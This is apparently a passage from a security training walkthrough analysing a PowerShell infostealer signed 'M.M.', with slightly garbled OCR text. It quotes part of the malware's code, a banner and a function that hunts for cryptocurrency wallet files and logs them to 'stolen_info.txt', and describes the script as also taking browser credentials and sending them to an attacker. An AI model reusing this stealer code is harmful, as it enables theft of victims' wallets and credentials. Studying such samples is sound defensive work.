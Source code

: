 
function Print-AsciiArt {
Write-Host "  ____     _       ___  _____    ___    _   _ "
Write-Host " / *|   | |     |* *||*   *|  / __|  | | | |"Write-Host "| |  _    | |      | |   | |   | |     | |*| |"
Write-Host "| || |   | |__   | |   | |   | |__   |  _  |"
Write-Host " _*__|   |__*__| |__*|  |*|    ___|  |*| |*|"

```
Write-Host "         Created by the one and only M.M."
```

}

# Call the function to print the ASCII art

Print-AsciiArt

# Path for the info file

$infoFilePath = "stolen_info.txt"

# Function to search for wallet files

function Search-ForWallets {
$walletPaths = @(
"$env:USERPROFILE.bitcoin\\wallet.dat",
"$env:USERPROFILE.ethereum\\keystore\*",
"$env:USERPROFILE.monero\\wallet",
"$env:USERPROFILE.dogecoin\\wallet.dat"
)
Add-Content -Path $infoFilePath -Value "\`n### Crypto Wallet Files ###"
foreach ($path in $walletPaths) {
if (Test-Path $path) {
Add-Content -Path $infoFilePath -Value "Found wallet: $path"
}
}
}

\[Output truncated for brevity\]

The script is designed to collect highly sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and send it to an attacker's remote server.

Disclaimer: All content in this room, including CPP code, PowerShell scripts, and commands, is provided solely for educational purposes. Please do not execute these on a Windows host.

This looks fairly typical of a PowerShell script for such a purpose, with one notable exception: a signature in the code that reads.

```
Created by the one and only M.M.
```
